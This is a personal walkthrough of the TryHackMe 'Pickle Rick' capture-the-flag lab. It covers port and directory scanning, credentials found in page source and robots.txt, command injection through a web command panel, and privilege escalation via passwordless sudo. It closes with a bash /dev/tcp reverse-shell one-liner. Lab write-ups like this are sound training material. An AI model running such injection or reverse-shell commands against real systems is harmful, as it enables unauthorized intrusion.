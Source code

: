 # Try Hack Me - Pickle Rick Room

## Easy rated, CTF style lab, based on the television show Rick and Morty.

In this Rick and Morty themed lab, users are challenged to exploit a web server to find 3 ingredients that will help Rick make a potion that will transform him from pickle to human.

First after starting the machine I run Nmap to see what ports are open and saving the results to a file called initial_scan.

![nmap1](https://user-images.githubusercontent.com/90977933/133953217-d124f8bc-3925-4df8-beb7-5b187ef3f915.png)


With only two open ports, 22 and 80, I use the -A flag in Nmap on those two ports to get additional information about the ports and victim machine.


![nmap2](https://user-images.githubusercontent.com/90977933/133953522-7c26e090-af6b-49ee-a735-68f8f7720231.png)

![nmap3](https://user-images.githubusercontent.com/90977933/133953528-52df3b14-3adf-4503-bec3-2815fafd5255.png)


From our results I can the victim machine is running Linux Ubuntu and that there is an Apache web server and webpage on port 80


### visiting the webpage!


![browser1](https://user-images.githubusercontent.com/90977933/133953712-b398f2b4-c2bc-4bec-be40-27850a845135.png)


Here begins the start of the story. The webpage is a note from Rick to Morty explaining that he has turned himself into a pickle again and needs Morty's help to turn back. He tells Morty to log into his computer and find the last three secret ingredients needed for his "pickle-reverse potion", but he has no idea what the password is. 

My first thought it to look at the source code of the webpage to see if there is anything useful.

![browser1_sc](https://user-images.githubusercontent.com/90977933/133953942-66b0f19e-6132-4a2c-9b56-7ec3b1c873e7.png)


AH HA! In the source code there is a username commented out by rick  **R1ckRul3s**. 



As a general good practice, I always check to see if the webpage has a robots.txt before moving on, **and it does!**


![robots1](https://user-images.githubusercontent.com/90977933/133954105-3ace493c-e4f6-4e9c-9ba2-af68d5c1b63f.png)


In the roboots.txt file the only thing here is "wubbalubbadubdub". Into the lab notes It goes.

Just to rule it out, I try to use the username we found in the page source and the string I found in the robots.txt, as a username and password combo on the open ssh port. Unfortunately with no success. On we go.


Next, I run gobuster to see if there are any hidden directories or redirects.


![gobuster1](https://user-images.githubusercontent.com/90977933/133954242-e400a294-5c6f-4475-8146-5838d30edec6.png)


In the gobuster results there are two 302 redirects to a /login.php directory. 


![gobuster2](https://user-images.githubusercontent.com/90977933/133954263-852e4387-2812-4112-a9e2-487b4e183982.png)


I visit the login.php and find a login portal and try the same username and password combo I used earlier for SSH.

### Success!


![portal1](https://user-images.githubusercontent.com/90977933/133954393-0f5fc69b-4d0a-44c9-af92-ff62d573973e.png)


After clicking around on the website and viewing the source code, I find all except for the Commands page, redirects to a denied.php with a message that only the REAL rick can view this page.
Since I know the machine we are connected to is a linux machine, I enter the *whoami* command on the Command Panel page to see what happens.

![command1](https://user-images.githubusercontent.com/90977933/133954466-ce87b84b-5933-48de-93f4-5d34c471a9c1.png)


Printed to our screen I see the output www-data.

![command2](https://user-images.githubusercontent.com/90977933/133954474-8bf1c555-3c95-4eb2-bc1f-aa588688d449.png)

I assume then that I am in the /var/www/html folder and run *ls -la* where I find there is a file called **Sup3rS3cretPickl3Ingred.txt.** Since it is in this directory I visit that page in the browser and find our **first flag.**

Trying to use the *cat* command showed that it is disabled along with more.

![disabled](https://user-images.githubusercontent.com/90977933/133954528-740b4f27-ecc7-43c3-9282-be5eed242025.png)


Looking into the disabled page source code I find a comment that looks like base encoding.

![disabled2](https://user-images.githubusercontent.com/90977933/133954648-214b9bf8-7746-4ae5-84e4-16720e694a4f.png)

After decoding a few times I realized the string was getting smaller and smaller which led me to believe it may have been a password.
It was not... rabbit hole

Getting back on track! I go back to the command page and some directory traversal to see what other information I can find. Using *ls -la ../../../home* I find users rick and ubuntu. I later found that typing ../../ was unnecessary 



![traversal1](https://user-images.githubusercontent.com/90977933/133954687-a1f3d5b1-c54c-4877-bcee-309d592aa72c.png)



Inside of the rick directory, there is a file called second ingredients.


![traversal2](https://user-images.githubusercontent.com/90977933/133954701-2c76686c-5ca8-4c7a-9b0e-82943caeb1f4.png)


Since *cat* is disabled I tried the *more* command with no luck. Next option is the *less* command.


![traversal3](https://user-images.githubusercontent.com/90977933/133954865-273d3e6c-6442-4b94-9ec9-5698603ca941.png)


**BAM! There is our second flag.**

I assume now the 3rd and final flag is in the machines root folder. Typically I would try to get a shell on the machine but since we can execute commands here, lets see what we can do here first.

Since I am logged in as the www-data user. I check to see what permissions they have using *sudo -l*



![root1](https://user-images.githubusercontent.com/90977933/133954924-3758cc56-8fbf-4a85-ac94-27e28bafaa70.png)



Luckily for us user www-data can run ALL COMMANDS WITH NO PASSWORD So now I *sudo -ls -la* the contents of the **/root** folder



![root2](https://user-images.githubusercontent.com/90977933/133955038-60a10422-da07-4532-9ec8-2542afcdc905.png)



And like before, I used the *less* command to view the contents of file **3rd.txt** for the third and final flag.



![root3](https://user-images.githubusercontent.com/90977933/133955061-677b23f5-a661-44ee-8115-c8a7e1d33eb8.png)


This lab was a quick and easy room that didn't require you to gain access to solve. 
I did go back and try tp gain access using a reverse shell and had success with

**Bash -c \'bash -I >& /dev/tcp/IP address/8080 0>&1\'**

From there it was the same sudo -l commands to find the final flag.

-Simon
